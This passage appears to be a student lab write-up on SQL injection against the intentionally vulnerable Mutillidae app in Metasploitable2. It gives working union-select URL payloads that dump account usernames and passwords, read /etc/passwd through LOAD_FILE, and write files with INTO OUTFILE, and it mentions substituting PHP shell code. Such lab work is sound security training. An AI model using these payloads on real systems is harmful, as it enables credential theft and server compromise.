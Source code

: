 Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/0f19e88e-5091-4e09-a788-ab4cacdcb145)


## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and 

passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/9ecb843f-8926-48bc-8eba-80215d962ad0)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the 

“/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
